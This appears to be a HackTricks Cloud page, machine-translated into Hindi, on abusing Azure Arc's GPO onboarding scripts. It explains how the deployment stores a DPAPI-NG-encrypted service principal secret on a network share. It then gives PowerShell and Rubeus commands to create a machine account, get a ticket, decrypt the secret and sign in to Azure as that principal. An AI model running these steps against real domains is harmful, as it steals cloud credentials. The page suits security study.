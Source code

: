 # Az - एज़्यूर आर्क वलनरेबल जीपीओ डिप्लॉय स्क्रिप्ट

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

### मुद्दों की पहचान

एज़्यूर आर्क नए आंतरिक सर्वरों (शामिल डोमेन सर्वर) को एज़्यूर आर्क में शामिल करने की अनुमति देता है जीपीओ ऑब्जेक्ट विधि का उपयोग करके। इसको सुविधाजनक बनाने के लिए, माइक्रोसॉफ्ट उस प्रक्रिया की आरंभ करने के लिए आवश्यक डिप्लॉयमेंट टूलकिट प्रदान करता है। ArcEnableServerGroupPolicy.zip फ़ाइल के अंदर, निम्नलिखित स्क्रिप्ट मिल सकते हैं: DeployGPO.ps1, EnableAzureArc.ps1, और AzureArcDeployment.psm1।

जब यह स्क्रिप्ट चलाया जाता है, तो DeployGPO.ps1 स्क्रिप्ट निम्नलिखित क्रियाएँ करता है:

1. स्थानीय डोमेन में एज़्यूर आर्क सर्वर्स ऑनबोर्डिंग जीपीओ बनाता है।
2. ऑनबोर्डिंग प्रक्रिया के लिए निर्धारित नेटवर्क शेयर में EnableAzureArc.ps1 ऑनबोर्डिंग स्क्रिप्ट की प्रतिलिपि करता है, जिसमें Windows स्थापक पैकेज भी होता है।

इस स्क्रिप्ट को चलाते समय, सिस्टम व्यवस्थापकों को दो मुख्य पैरामीटर प्रदान करने की आवश्यकता होती है: **ServicePrincipalId** और **ServicePrincipalClientSecret**। इसके अतिरिक्त, डोमेन, शेयर करने वाले सर्वर के FQDN, और शेयर का नाम जैसे अन्य पैरामीटर भी आवश्यक होते हैं। स्क्रिप्ट को आवश्यक जानकारी जैसे tenant ID, संसाधन समूह, और अन्य आवश्यक जानकारी भी प्रदान करनी होती है।

एक एन्क्रिप्टेड गुप्त सीक्रेट निर्दिष्ट शेयर पर AzureArcDeploy निर्देशिका में DPAPI-NG एन्क्रिप्शन का उपयोग करके उत्पन्न किया जाता है। एन्क्रिप्टेड सीक्रेट को एन्क्रिप्ट करने के लिए DeployGPO.ps1 स्क्रिप्ट में साक्षात्कार किया जाता है, जहां एन्क्रिप्शन को $descriptor और $ServicePrincipalSecret के साथ ProtectBase64 को कॉल करके किया जाता है। डिस्क्रिप्टर में डोमेन कंप्यूटर और डोमेन कंट्रोलर समूह SIDs शामिल होते हैं, जिससे सुनिश्चित होता है कि सेवा प्रिंसिपल सीक्रेट को केवल डोमेन कंट्रोलर्स और डोमेन कंप्यूटर सुरक्षा समूह ही डिक्रिप्ट कर सकते हैं, जैसा स्क्रिप्ट टिप्पणियों में उल्लेख किया गया है।
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### शात्रुता

हमारे पास निम्नलिखित स्थितियाँ हैं:

1. हमने आंतरिक नेटवर्क में सफलतापूर्वक प्रवेश किया है।
2. हमें किसी कंप्यूटर खाते को बनाने या नियंत्रण में लेने की क्षमता है जो एक्टिव डायरेक्टरी के अंदर है।
3. हमने एज़्यूरआर्कडिप्लॉय निर्देशिका को समेत करने वाला नेटवर्क शेयर खोज लिया है।

एडी वातावरण के अंदर एक मशीन खाता प्राप्त करने के लिए कई विधियाँ हैं। उनमें से एक सबसे सामान्य मशीन खाता कोटा का शात्रुता उपयोग करना है। दूसरा विधि विभिन्न अनुरोधित ACLs या विभिन्न अन्य गलत विन्यासों के माध्यम से एक मशीन खाते को क्षति पहुंचाना है।
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
एक मशीन अकाउंट प्राप्त होने के बाद, इस अकाउंट का उपयोग करके प्रमाणीकरण संभव है। हम नेटनली फ्लैग के साथ runas.exe कमांड का उपयोग कर सकते हैं या Rubeus.exe के साथ पास-द-टिकट का उपयोग कर सकते हैं।
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
हमारे कंप्यूटर खाते के लिए TGT को मेमोरी में स्टोर करके, हम निम्नलिखित स्क्रिप्ट का उपयोग करके सेवा प्रिंसिपल सीक्रेट को डिक्रिप्ट कर सकते हैं।
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
वैकल्पिक रूप से, हम [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) का उपयोग कर सकते हैं।

इस बिंदु पर, हम Azure से कनेक्ट करने के लिए आवश्यक शेष जानकारी एकत्र कर सकते हैं ArcInfo.json फ़ाइल से, जो encryptedServicePrincipalSecret फ़ाइल के साथ समान नेटवर्क शेयर पर स्टोर है। इस फ़ाइल में विवरण होता है जैसे: TenantId, servicePrincipalClientId, ResourceGroup, और अधिक। इस जानकारी के साथ, हम Azure CLI का उपयोग करके कंप्रोमाइज़्ड सेवा प्रिंसिपल के रूप में प्रमाणित कर सकते हैं।

## संदर्भ

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
